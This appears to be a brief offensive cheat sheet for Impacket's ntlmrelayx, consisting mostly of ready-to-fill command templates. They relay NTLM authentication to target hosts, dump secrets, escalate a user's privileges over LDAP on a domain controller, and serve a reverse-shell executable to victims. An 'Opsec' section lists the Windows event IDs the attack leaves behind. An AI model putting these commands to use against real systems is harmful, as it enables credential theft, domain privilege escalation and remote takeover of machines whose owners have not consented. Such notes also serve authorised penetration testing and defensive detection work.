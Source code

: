 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py  

### Pass-The-Hash with NTHash/NTLM possible
```
# Pass-The-Hash with NET-NTLM/NTLMv1/v2 not possible
```

### Relay requests to ip addresses, without -c ntlmrelayx will use secretsdump (must be in the same directory)
```
impacket-ntlmrelayx -tf <rhostFile> -c '<command>'
```

### Start relay using ldap (authentication needs to go over HTTP) - use ldaps for secure ldap
```
impacket-ntlmrelayx -t ldap://<dcIp> --escalate-user <user>
```

### Serve payload, -t = target, -e payload from file - if client throws smb version-error use: -smb2support
```
impacket-ntlmrelayx -t <rhost> -e <./reverse.exe>
```

### Opsec considerations - 
```
Windows Security Log Event IDs
-Logon (4624) -> multiple
-Logoff (4634) -> multiple
-Special Logon (4672) -> multiple

Windows System Logs
Service Control Manager (7040) -> multiple
```

